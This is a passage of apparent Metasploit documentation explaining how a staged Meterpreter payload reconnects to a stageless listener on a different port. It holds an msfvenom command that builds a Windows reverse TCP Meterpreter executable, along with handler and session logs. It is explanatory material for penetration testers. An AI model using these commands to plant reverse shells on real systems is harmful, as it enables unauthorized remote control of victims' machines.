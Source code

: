 ```


msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] [2016.10.05-12:29:48] Started reverse TCP handler on 10.1.10.35:9000
msf exploit(handler) > [*] [2016.10.05-12:29:48] Starting the payload handler...
```
This time, when we create a payload for this listener, we use the `ReverseListenerBindPort` value for `LPORT`:
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.10.35 LPORT=9000 -f exe -o /tmp/staged9000.exe
```

To recap, we now have:

* A staged payload that will connect to Metasploit on port `9000`.
* A staged listener listening on port `9000`, but configured to generate a payload that contains a configuration block that references port `8000` instead.

When the staged payload runs, it will connect to Metasploit on port `9000`. If the session needs to _reconnect_ for any reason, Meterpreter will be responsible for that reconnection. Therefore, the configuration block will be referenced instead of the stager configuration, and it will use port `8000` where the stageless listener is active. Here's an example:
```
msf exploit(handler) >
[*] [2016.10.05-12:34:27] Sending stage (957999 bytes) to 10.1.10.44
[*] Meterpreter session 1 opened (10.1.10.35:9000 -> 10.1.10.44:49282) at 2016-10-05 12:34:29 +1000
msf exploit(handler) > sessions

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  1   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  10.1.10.35:9000 -> 10.1.10.44:49282 (10.1.10.44)
```
Note the `Sending stage` message, and that we have the active connection on port `9000`. We can then put the session to sleep, and watch it come back on `8000`:
```
meterpreter > sleep 5
[*] Telling the target instance to sleep for 5 seconds ...
[+] Target instance has gone to sleep, terminating current session.

[*] 10.1.10.44 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 2 opened (10.1.10.35:8000 -> 10.1.10.44:49283) at 2016-10-05 12:35:55 +1000

msf exploit(handler) > sessions

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  2   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  10.1.10.35:8000 -> 10.1.10.44:49283 (10.1.10.44)
```
You'll see that the connection came back on port `8000`, and we didn't see the `Sending stage` message!


  [Reflective DLL Injection]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf
  [MS08-067]: https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
  [Brent Cook]: https://twitter.com/busterbcook
  [config-wiki]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Configuration